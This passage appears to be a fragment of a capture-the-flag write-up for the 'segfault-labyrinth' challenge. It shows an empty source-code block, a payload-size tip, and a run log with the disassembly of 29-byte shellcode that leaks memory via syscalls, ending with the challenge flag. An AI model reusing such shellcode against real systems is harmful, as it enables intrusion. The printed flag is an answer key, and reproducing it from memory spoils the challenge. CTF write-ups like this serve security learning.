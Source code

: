 ```python
```

> `rax` and `rdx` were reset before shellcode run; use `dl` and `al` to reduce payload.

29 bytes:

```bash
# ./exploit4.py D=1 REMOTE=1
[+] Opening connection to segfault-labyrinth.2022.ctfcompetition.com on port 1337: Done
   0:   64 48 8b 34 25 00 03    mov    rsi, QWORD PTR fs:0x300
   7:   00 00
   9:   48 8b b6 10 fd ff ff    mov    rsi, QWORD PTR [rsi-0x2f0]
  10:   b2 64                   mov    dl, 0x64
  12:   b0 01                   mov    al, 0x1
  14:   48 89 c7                mov    rdi, rax
  17:   0f 05                   syscall
  19:   b0 3c                   mov    al, 0x3c
  1b:   0f 05                   syscall
[*] len(shellcode) = 29
[*] Closed connection to segfault-labyrinth.2022.ctfcompetition.com port 1337
CTF{c0ngratulat1ons_oN_m4k1nG_1t_thr0uGh_th3_l4Byr1nth}
```
